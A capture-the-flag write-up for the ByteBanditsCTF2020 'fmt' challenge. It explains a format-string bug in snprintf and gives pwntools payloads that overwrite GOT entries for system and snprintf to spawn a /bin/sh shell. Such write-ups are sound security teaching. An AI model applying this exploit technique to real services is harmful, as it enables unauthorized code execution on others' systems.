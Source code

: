 
## fmt
### Description

> Format strings are so 2000s. 
>
> nc [pwn.byteband.it](http://pwn.byteband.it) 6969


### Attachment

[fmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/fmt/fmt)

### Analysis

In `snprintf`, our input string (`buf`) will be formated to `other_buf` :

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char buf; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("Choose your name");
  puts("1. Lelouch 2. Saitama 3. Eren");
  printf("Choice: ", 0LL);
  if ( get_int() == 2 )
  {
    puts("Good job. I'll give you a gift.");
    read(0, &buf, 0x100uLL);
    snprintf(other_buf, 0x100uLL, &buf);
    system("echo 'saitama, the real hero'");
  }
  return 0;
}
```

> string will not print to `stdin`, so we can use `%ln` to write memory with any values directly

### Solution

#### infinite loop

First of all, as the binary closes after `system` function,  an `infinite loop` should be created.

We need overwrite GOT of `system` with address of `main` and it can be easily done by `fmtstr_payload` of `pwntools` :

```python
# infinite loop
fmt1 = fmtstr_payload(6,{elf.got['system']:elf.sym['main']},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt1)
```

> after that we can repeat calling `snprintf` to do more thing.

#### overwrite GOT of `snprintf`

> As `snprintf` would not print any char to `stdin`,  it was hard to leak the base address of libc. 
>
> But we can use `system` function in binary instead of libc.

Overwrite GOT of `snprintf` with the original address in GOT of `system` (`system@plt+6`) 

```c
 ► 0x401070       <snprintf@plt>     jmp    qword ptr [rip + 0x2fc2] <0x401056>
    ↓
   0x401056       <system@plt+6>     push   2
   0x40105b       <system@plt+11>    jmp    0x401020
```

>  `dl_resolver` will resolve real address of system in libc then call it. 

When we construct the second format string, make sure that the beginning of our input string was `/bin/sh;`:

```python
fmt2 = '/bin/sh;'
fmt2+= fmtstr_payload(7,{elf.got['snprintf']:0x401056-8},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt2)
```

> The string stored in `other_buf` was `/bin/sh;......` and will not changed when `snprintf` were called at next time

#### getshell

`system('/bin/sh;')` executed after any chars sent:

```python
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.','TaQini win')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/fmt) 


